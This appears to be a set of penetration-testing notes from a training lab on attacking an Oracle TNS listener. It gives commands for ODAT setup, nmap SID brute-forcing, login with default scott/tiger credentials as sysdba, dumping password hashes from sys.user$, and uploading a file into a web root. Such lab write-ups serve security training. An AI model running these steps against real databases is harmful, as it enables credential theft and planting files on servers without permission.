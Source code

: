 # Oracle Transparent Network Substrate

## Footprinting The Service

### Tool Setup

{% code overflow="wrap" %}
```
sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>Before we can enumerate the TNS listener and interact with it, we need to download a few packages and tools</p></figcaption></figure>

### Nmap

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Nmap - SID Bruteforcing

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **ODAT**

{% code overflow="wrap" %}
```
./odat.py all -s 10.129.204.235
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption><p> the <code>odat.py</code> tool to perform a variety of scans like retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations etc.</p></figcaption></figure>

### **SQLplus - Log In**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption><p>You can also attempt to append "as sysdba" for higher privileges</p></figcaption></figure>

If you come across the following error <mark style="color:red;">sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory</mark> execute the following command

{% code overflow="wrap" %}
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
{% endcode %}

### Oracle RDBMS - Interaction

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - Database Enumeration**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption><p>Try using the valid account to log in as the System Database Admin (<code>sysdba</code>), giving higher privileges. This is possible when the user has the appropriate privileges typically granted by the database administrator.</p></figcaption></figure>

### **Oracle RDBMS - Extract Password Hashes**

{% code overflow="wrap" %}
```
select name, password from sys.user$;
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - File Upload**

| OS      | Path                 |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

{% code overflow="wrap" %}
```
echo "Oracle File Upload Test" > testing.txt
```
{% endcode %}

{% code overflow="wrap" %}
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl -X GET http://10.129.204.235/testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

